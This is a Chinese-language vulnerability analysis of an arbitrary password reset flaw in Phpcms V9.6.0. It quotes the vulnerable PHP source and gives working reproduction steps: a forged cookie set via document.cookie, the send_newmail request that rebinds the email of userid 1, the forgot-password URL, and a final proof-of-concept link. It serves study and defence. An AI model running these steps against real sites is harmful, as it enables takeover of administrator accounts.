

Phpcms V9.6.0 任意密码重置漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.0

三、复现过程
------------

### 漏洞分析

`/phpcms/modules/member/index.php` 第267到312行

    public function send_newmail() {
        $_username = param::get_cookie('_regusername');
        $_userid = param::get_cookie('_reguserid');
        $_ssouid = param::get_cookie('_reguseruid');
        $newemail = $_GET['newemail'];
     
        if($newemail==''){//邮箱为空，直接返回错误
            return '2';
        }
        $this->_init_phpsso();
        $status = $this->client->ps_checkemail($newemail);
        if($status=='-5'){//邮箱被占用
            exit('-1');
        }
        if ($status==-1) {
            $status = $this->client->ps_get_member_info($newemail, 3);
            if($status) {
                $status = unserialize($status); //接口返回序列化，进行判断
                if (!isset($status['uid']) || $status['uid'] != intval($_ssouid)) {
                    exit('-1');
                }
            } else {
                exit('-1');
            }
        }
        //验证邮箱格式
        pc_base::load_sys_func('mail');
        $code = sys_auth($_userid.'|'.microtime(true), 'ENCODE', get_auth_key('email'));
        $url = APP_PATH."index.php?m=member&c=index&a=register&code=$code&verify=1";
     
        //读取配置获取验证信息
        $member_setting = getcache('member_setting');
        $message = $member_setting['registerverifymessage'];
        $message = str_replace(array('{click}','{url}','{username}','{email}','{password}'), array('<a href="'.$url.'">'.L('please_click').'</a>',$url,$_username,$newemail,$password), $message);
     
        if(sendmail($newemail, L('reg_verify_email'), $message)){
            //更新新的邮箱，用来验证
            $this->db->update(array('email'=>$newemail), array('userid'=>$_userid));
            $this->client->ps_member_edit($_username, $newemail, '', '', $_ssouid);
            $return = '1';
        }else{
            $return = '2';
        }
        echo $return;
    }

　　`$_userid`用 `param::get_cookie('_reguserid')` 来获取

跟进去：`/phpv9.6.0/phpcms/libs/classes/param.class.php` 第106-117行。

    public static function get_cookie($var, $default = '') {
        $var = pc_base::load_config('system','cookie_pre').$var;
        $value = isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;
        if(in_array($var,array('_userid','userid','siteid','_groupid','_roleid'))) {
            $value = intval($value);
        } elseif(in_array($var,array('_username','username','_nickname','admin_username','sys_lang'))) { //  site_model auth
            $value = safe_replace($value);
        }
        return $value;
    }

　　这时候的\$var的值是\_reguserid，
然后获取前缀。`pc_base::load_config('system','cookie_pre')`

　　\$var的值就变成了gggCB\_\_reguserid，然后进到`sys_auth($_COOKIE[$var], 'DECODE')`,由于这个值我们是可控的，那找个可控的地方加密一下，也就是注册的时候，把名字注册成1xxxx(为什么是这样的后面会说)
，然后他会对username进行加密，我们只要注册一个号，然后复制出里面username的值就行。

接着有个if判断，这就是我说文章分析错的地方，这里的\$var的值是gggCB\_\_reguserid，根本不在后面的这个数组里面，所以进入不到\$value
= intval(\$value);

所以不能intval出数字来，所以文章分析错了，但是还是能密码重置。接着看，返回了\$value的值，也就是1xxxx。

省略中间的运行：来到304行，看这句

`$this->db->update(array('email'=>$newemail), array('userid'=>$_userid));`

进行update操作，\$newemail的值是我们给的，\$\_userid是 1xxxx 。

跟进去形成sql修改。语句是这样的。

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1xxxx'

然后在mysql中，where 1 = \'1sFdsfdsf\'
是相等的，因为后面的字符串转为了数组1

所以他的语句就变成了

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1'

然后重置掉了用户userid为1 的用户

2.png

### 漏洞复现

大概的攻击流程是这样的。

注册一个1xxx
，然后获取cookie中的username的值，然后切换一个浏览器，再次打开网页，在f12中，设置cookie的值，注意\_\_reguserid前面的gggCB也要和username的值一样

`document.cookie='gggCB__reguserid=2f22C0FxoGesxWq73GqUXpuJBDAAEO_KZL5MuEDDeaEj9w'`

然后访问
`/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=q123456@qq.com`

看到页面返回1就代表成功了，然后就去

`/index.php?m=member&c=index&a=public_forget_password&siteid=1`

输入你的邮箱 重置掉userid=1的密码。

最终poc为

    https://www.0-sec.org/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=aa222a@qq.com

参考链接
--------

> https://www.cnblogs.com/yangxiaodi/p/6890298.html
